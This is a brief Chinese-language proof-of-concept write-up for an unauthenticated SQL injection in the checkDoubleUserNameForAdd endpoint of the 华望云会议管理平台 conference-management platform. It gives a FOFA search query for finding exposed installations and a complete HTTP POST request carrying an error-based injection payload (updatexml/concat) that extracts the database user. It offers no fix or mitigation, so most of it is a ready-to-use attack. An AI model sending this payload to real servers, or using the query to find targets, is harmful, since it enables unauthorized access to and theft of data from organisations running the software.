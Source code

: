 # 华望云会议管理平台checkDoubleUserNameForAdd存在SQL注入漏洞

华望云会议管理平台checkDoubleUserNameForAdd存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息

## fofa

```kotlin
title="华望云会议管理平台"
```

## poc

```javascript
POST /ajax/checkDoubleUserNameForAdd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

userName=1%25'+and+1%3d(updatexml(0x7e,concat(1,(select+user())),1))+and+'%25%25'+like+'
```

